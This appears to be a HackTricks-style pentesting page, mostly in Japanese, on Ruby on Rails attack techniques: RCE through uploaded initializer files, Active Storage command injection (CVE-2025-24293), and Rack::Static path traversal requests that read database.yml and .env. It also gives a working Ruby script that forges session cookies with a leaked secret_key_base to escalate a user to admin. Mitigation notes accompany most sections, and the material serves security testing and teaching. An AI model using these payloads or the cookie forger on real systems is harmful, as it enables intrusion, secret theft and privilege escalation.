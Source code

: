 # Ruby トリック

{{#include ../../banners/hacktricks-training.md}}

## ファイルアップロードによるRCE

As explained in [this article](https://www.offsec.com/blog/cve-2024-46986/), uploading a `.rb` file into sensitive directories such as `config/initializers/` can lead to remote code execution (RCE) in Ruby on Rails applications.

ヒント:
- アプリ起動時に実行される他の boot/eager-load の場所も、書き込み可能であれば同様に危険です（例: `config/initializers/` が典型）。もし任意のファイルアップロードが `config/` 以下のどこかに置かれ、後で評価／require される場合、起動時に RCE を得る可能性があります。
- Rails が起動時にロードするコンテナイメージ内にユーザー制御のファイルをコピーするような dev/staging ビルドを探してください。

## Active Storage image transformation → command execution (CVE-2025-24293)

アプリが Active Storage と `image_processing` + `mini_magick` を使用し、image transformation メソッドに信頼できないパラメータを渡す場合、Rails の 7.1.5.2 / 7.2.2.2 / 8.0.2.1 より前のバージョンでは、いくつかの変換メソッドが誤ってデフォルトで許可されていたため、command injection を許す可能性がありました。

- A vulnerable pattern looks like:
```erb
<%= image_tag blob.variant(params[:t] => params[:v]) %>
```
where `params[:t]` and/or `params[:v]` are attacker-controlled.

- テスト時に試すこと
- variant/processing オプション、変換名、または任意の ImageMagick 引数を受け取るエンドポイントを特定する。
- `params[:t]` と `params[:v]` をファズして、疑わしいエラーや実行の副作用を探す。メソッド名に影響を与えられる、または MiniMagick に到達する生引数を渡せる場合、image processor ホスト上で code exec を得られる可能性があります。
- 生成された variants に対して読み取りアクセスしかない場合、細工した ImageMagick 操作を使ってブラインドな exfiltration を試みる。

- 修正/検知
- Active Storage + `image_processing` + `mini_magick` を使用し、ユーザー制御の変換がある Rails < 7.1.5.2 / 7.2.2.2 / 8.0.2.1 を見かけたら、悪用可能と考えてください。アップグレードを推奨し、メソッド／パラメータの厳格な許可リスト適用と ImageMagick ポリシーの強化を行うよう勧めます。

## Rack::Static の LFI / path traversal (CVE-2025-27610)

ターゲットスタックが Rack ミドルウェアを直接またはフレームワーク経由で使用している場合、`rack` の 2.2.13、3.0.14、3.1.12 より前のバージョンでは、`:root` が未設定／誤設定だと `Rack::Static` 経由で Local File Inclusion を許す可能性があります。`PATH_INFO` にエンコードされたトラバーサルがあると、プロセスの作業ディレクトリや予期しない root 以下のファイルが露出することがあります。

- `config.ru` やミドルウェアスタックに `Rack::Static` をマウントしているアプリを探す。例えば静的パスに対してエンコードされたトラバーサルを試す:
```text
GET /assets/%2e%2e/%2e%2e/config/database.yml
GET /favicon.ico/..%2f..%2f.env
```
`urls:` に合わせて prefix を調整する。アプリがファイル内容で応答する場合、解決された `:root` 以下の任意のファイルへの LFI を得ている可能性が高い。

- 緩和策: Rack をアップグレードする。`:root` が公開ファイルのディレクトリのみを指し、明示的に設定されていることを確認する。

## Forging/decrypting Rails cookies when `secret_key_base` is leaked

Rails は `secret_key_base` から派生したキーを使ってクッキーを暗号化し署名します。If that value leaks (e.g., in a repo, logs, or misconfigured credentials), you can usually decrypt, modify, and re-encrypt cookies. これは、アプリが cookies に roles、user IDs、または feature flags を格納している場合、しばしば authz bypass に繋がります。

Minimal Ruby to decrypt and re-encrypt modern cookies (AES-256-GCM, default in recent Rails):
```ruby
require 'cgi'
require 'json'
require 'active_support'
require 'active_support/message_encryptor'
require 'active_support/key_generator'

secret_key_base = ENV.fetch('SECRET_KEY_BASE_LEAKED')
raw_cookie = CGI.unescape(ARGV[0])

salt   = 'authenticated encrypted cookie'
cipher = 'aes-256-gcm'
key_len = ActiveSupport::MessageEncryptor.key_len(cipher)
secret  = ActiveSupport::KeyGenerator.new(secret_key_base, iterations: 1000).generate_key(salt, key_len)
enc     = ActiveSupport::MessageEncryptor.new(secret, cipher: cipher, serializer: JSON)

plain = enc.decrypt_and_verify(raw_cookie)
puts "Decrypted: #{plain.inspect}"

# Modify and re-encrypt (example: escalate role)
plain['role'] = 'admin' if plain.is_a?(Hash)
forged = enc.encrypt_and_sign(plain)
puts "Forged cookie: #{CGI.escape(forged)}"
```
注意:
- 古いアプリでは AES-256-CBC とソルト `encrypted cookie` / `signed encrypted cookie`、または JSON/Marshal シリアライザを使用している場合があります。ソルト、cipher、serializer を適宜調整してください。
- 侵害／評価時には、既存のすべてのクッキーを無効化するために `secret_key_base` をローテーションしてください。

## See also (Ruby/Rails-specific vulns)

- Ruby deserialization and class pollution:
{{#ref}}
../../pentesting-web/deserialization/README.md
{{#endref}}
{{#ref}}
../../pentesting-web/deserialization/ruby-class-pollution.md
{{#endref}}
{{#ref}}
../../pentesting-web/deserialization/ruby-_json-pollution.md
{{#endref}}
- Template injection in Ruby engines (ERB/Haml/Slim, etc.):
{{#ref}}
../../pentesting-web/ssti-server-side-template-injection/README.md
{{#endref}}



## 参考

- Rails Security Announcement: CVE-2025-24293 Active Storage unsafe transformation methods (fixed in 7.1.5.2 / 7.2.2.2 / 8.0.2.1). https://discuss.rubyonrails.org/t/cve-2025-24293-active-storage-allowed-transformation-methods-potentially-unsafe/89670
- GitHub Advisory: Rack::Static Local File Inclusion (CVE-2025-27610). https://github.com/advisories/GHSA-7wqh-767x-r66v
{{#include ../../banners/hacktricks-training.md}}
